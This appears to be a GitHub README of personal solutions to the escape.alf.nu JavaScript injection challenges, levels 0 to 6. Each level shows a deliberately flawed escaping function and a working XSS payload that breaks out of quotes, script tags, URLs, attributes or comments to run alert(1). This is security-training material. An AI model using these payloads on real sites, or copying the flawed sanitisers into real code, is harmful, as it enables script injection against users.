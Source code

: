 JavaScript Injection Challenges Solutions
=========================================

Just a repository to keep my solutions to http://escape.alf.nu so that I can remember them over time...


LEVEL 0
-------

    function escape(s) {
        // Warmup.

        return '<script>console.log("'+s+'");</script>';
    }

INPUT:

    "+alert(1)+"`, `");alert(1)//


LEVEL 1
-------

    function escape(s) {
        // Escaping scheme courtesy of Adobe Systems, Inc.
        s = s.replace(/"/g, '\\"');
        return '<script>console.log("' + s + '");</script>';
    }

INPUT:

    \");alert(1)//


LEVEL 2
-------

    function escape(s) {
        s = JSON.stringify(s);
        return '<script>console.log(' + s + ');</script>';
    }

INPUT:

    </script><script>alert(1)//


LEVEL 3
-------

    function escape(s) {
        var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
        console.log(url);

        var a = document.createElement('a');
        a.href = url;
        document.body.appendChild(a);
        a.click();
    }

INPUT:

    %22);alert(1)//


LEVEL 4
-------

    function escape(s) {
        var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
        // URLs
        text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
        // [[img123|Description]]
        text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
        return text;
    }

INPUT:

    [[a|""onload="alert(1)"]]


LEVEL 5
-------

    function escape(s) {
        // Level 4 had a typo, thanks Alok.
        // If your solution for 4 still works here, you can go back and get more points on level 4 now.

        var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
        // URLs
        text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
        // [[img123|Description]]
        text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
        return text;
    }

INPUT:

    [[a|http://onload='alert(1)']]
    [[a|http://onerror='alert(1)']]


LEVEL 6
-------

    function escape(s) {
        // Slightly too lazy to make two input fields.
        // Pass in something like "TextNode#foo"
        var m = s.split(/#/);

        // Only slightly contrived at this point.
        var a = document.createElement('div');
        a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
        return a.innerHTML;
    }

INPUT:

    Comment#--><script>alert(1)</script>
